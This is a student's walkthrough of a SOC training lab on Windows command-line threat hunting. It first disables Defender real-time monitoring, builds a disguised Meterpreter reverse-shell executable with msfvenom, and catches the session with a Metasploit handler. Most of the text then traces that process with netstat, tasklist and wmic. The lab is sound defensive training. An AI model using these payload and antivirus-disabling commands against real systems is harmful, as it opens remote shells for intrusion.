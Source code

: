 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-windows-cli/","updated":"2025-06-09T11:42:48.664-07:00"}
---
```




## LAB: Windows CLI
[WindowsCLI.md](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

In this lab, we're creating and running malware on our system, and then investigating it using [[Tool Deep-Dives/Windows/NET\|net]], [[Tool Deep-Dives/Windows/netstat\|netstat]], [[Tool Deep-Dives/Windows/tasklist\|tasklist]], and [[Tool Deep-Dives/Windows/wmic\|wmic]].

### Windows Lab
1. Get the malware going
	1. Disable protections
		1. First, we disable real time monitoring, because while it's supposed to be off, it might have turned itself back on.
		2. PowerShell, as admin: `Set-MpPreference -DisableRealtimeMonitoring $true`
		3. **You SHOULD get an error.** `A general error occurred that is not covered by a more specific error code.` is a good thing, and means it's already been disabled.
	2. Get the Linux interface name and IP
		1. The lab uses `ifconfig` and I'm used to that, but `ip a` is what all the kids are doing, and you gotta keep up with the times.
			1. Mine is `eth0` and IP `172.17.28.218/20`
			2. *Yours will be different*
	4. Create and deploy the malware
		1. In the same Linux panel, create the Meterpreter malware, and name it something totally legit, like *TrustMe.exe*^[This can be any name you want; for example, notepad.exe]
			1. We're badguys, so jumping right in with `sudo su -`
			2. Create the malware using [[Tool Deep-Dives/Metasploit/msfvenom\|msfvenom]], a Metasploit payload generator and encoder.
				1. `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=eth0 lport=4444 -f exe -o /tmp/TrustMe.exe`
				2. **NOTE**: `lhost` can be the IP *or* the interface.
					1. I'm making this kinda copy-paste^[We'll see how that goes if/when I come back to this lab in a few weeks time.], so using `eth0` instead of my IP
			3. Check the file and move it onto the Windows system in the tools folder
				1. `cd /tmp && ls -l TrustMe.exe && cp ./TrustMe.exe /mnt/c/tools`
	5. Start the Metasploit handler^[I never met a sploit I couldn't handle.^[I'm sorry, I'm so sorry, please don't hate me.]]
		1. Create a new terminal in Linux and elevate to root
			1. `sudo su -`
		2. Configure Metasploit
			1. Launch Metasploit
				1. `msfconsole -q`
			2. Configure the handler
				1. `use exploit/multi/handler`
				2. `set PAYLOAD windows/meterpreter/reverse_tcp`
				3. `set LHOST eth0`
			3. [Run](https://www.youtube.com/watch?v=mw2kKyJu9gY)
				1. `exploit`
		3. Execute `TrustMe.exe`
			1. Open CMD as Admin, `cd \tools`, then run `TrustMe.exe`
			2. **NOTE**: While I was documenting everything, something got borked and it didn't work.
				1. I think I just took too long.
				2. I killed the Terminal, killed the "Apache Workbench" (or something similar) in Task Manager, and started from the beginning, and everything worked fine.
		4. Confirm we have access
			1. Navigate back over to the Metasploit terminal, and you should see the connection initiated
			2. ![BHIS-SOCC-lab-WindowsCLI.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI.png)
2. Create a sharedrive and some sessions
	1. This is not part of the malware section, and I think it's just setup
	2. Open CMD as Admin, and create a new shared folder
		1. `net share class=C:\Tools`
			2. `net share` creates a shared folder
			3. `class` is the name of the shared folder, and it routes to `C:\Tools`
				1. The share name could be anything; `tools`, `sharedrive`, or `BunchOfGarbageFiles`
			4. The folder can then be accessed with `\\<computer address>\class`
				1. This is either the name of the computer or its network address
				2. e.g., `\\Computer-name\class` or `\\192.168.0.1\class`
		2. `net use * \\127.0.0.1\c$`
			1. `net use` maps a network share to a local drive number
			2. `*` tells it to use the first available drive number
				1. In my case, `Z:`
			3. `\\127.0.0.1\c$` identifies the remote computer (`127.0.0.1`) and the *remote* assigned drive name (`c$`)
				1. In this case, the C drive
				2. Many years ago in a fairly unrestricted work environment, I would often remotely drop scripts and installers directly onto client computers by going to `\\JDOE-1234\c$\Installers`
					1. These files would then be accessible at `C:\Installers`
3. Find the baddies
	1. Start by checking for network shares on this computer
		1. `net session`
			1. Shows us all the remote sessions initiated on this computer.
		2. `net use`
			1. Shows all the active shared drive connections, in this case the share locally known as `Z:`, and remotely known as `\\127.0.0.1\c$`
		3. `net view \\127.0.0.1`
			1. Since we've noticed that 127 address being used in the prior two commands, we can use `net view` to investigate it a little more
			2. Shows all shared resources at `\\127.0.0.1`, which is the [loopback address](https://ccnadefinitions.com/ccna/20-definitions/i-pv4-address-classes/)^[The address the computer uses to refer to itself.] of the computer
			3. You should see a `Disk` called `class` listed here.
				1. If there were more than one share, you would see more.
	2. Let's use [[Tool Deep-Dives/Windows/netstat\|netstat]] to investigate
		1. `netstat -naob`
			1. List active processes; grab the PID for any suspicious *ESTABLISHED* sessions (e.g. `trustme.exe`)
				1. In my case, the PID is `7472`
			2. The format is a little unintuitive, but the first line is indented; The malware is highlighted below.
				1. ![BHIS-SOCC-lab-WindowsCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-1.png)
	3. `netstat -f`
		1. Shows all established connections and their *Foreign Address* (`-f`)
			1. Domainless connections are pretty sus, and of course our malware ain't got no domain!
	4. `tasklist /m /fi "pid eq <PID>"`
		1. Find the associated file in the [[Tool Deep-Dives/Windows/tasklist\|tasklist]] and its associated modules (`/m`)
	5. `wmic process where processid=<PID> get commandline`
		1. This is way to indicate if something was launched from commandline
			1. Resources launched from commandline will typically just be the resource, and not the full path, etc.
		2. `TrustMe.exe` has a fairly simple output, but that got me thinking; let's do an experiment with Notepad.
			1. Launch Notepad in three ways:
				1. Start menu > Notepad
					1. Launching notepad like normal
				2. cmd: `C:\Users\adhd> notepad.exe /?`
					1. The `/?` will throw a syntax error, but Notepad will still launch and it gives us a clear delineator
				3. cmd: `"C:\WINDOWS\system32\notepad.exe"`
					1. This should mimic launching Notepad like a normal user
			2. Find the PIDs with `tasklist /m /fi "imagename eq notepad.exe"`
				1. ![BHIS-SOCC-lab-WindowsCLI-3.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-3.png)
			3. Take the PID from each Notepad process and run the `wmic` command from earlier.
				1. ![BHIS-SOCC-lab-WindowsCLI-4.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-4.png)
			4. As we can see, the Notepad processes with PID 7064 and 4036 look identical
	6. `wmic process get name,parentprocessid,processid`
		1. Pipe it to `| find "[PID]"` to identify all processes associated with the PID or parent PID
			1. Here, I progressively searched down the parent Process ID to see who launched what and when
			2. ![BHIS-SOCC-lab-WindowsCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-2.png)
		2. So this is interesting, but let's go back and check our notepad example
			1. We can see the two processes we kicked off from the Terminal
				1. ![BHIS-SOCC-lab-WindowsCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-5.png)
			2. Here I've drilled into the processes started in the Terminal
				1. The parent process is `WindowsTerminal.exe`, and we can see all the other shenanigans it's got running.
				2. ![BHIS-SOCC-lab-WindowsCLI-6.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-6.png)
			4. Here's what we see with the normally-begun process; it was started by "explorer.exe"
				1. It looks much more straightforward and clean.
				2. ![BHIS-SOCC-lab-WindowsCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-8.png)

### Thoughts
This was interesting, but feels like it could be optimized; maybe a script that specifically looks for processes begun by PowerShell or cmd.exe, or could visualize it by showing the whole process tree of suspicious activity. Maybe a [[Tool Deep-Dives/Python/Python\|Python]] project...

#### Other tools for threat hunting
[[Tool Deep-Dives/DeepBlueCLI\|DeepBlueCLI]]
[[Tool Deep-Dives/Windows/Sysmon\|Sysmon]]
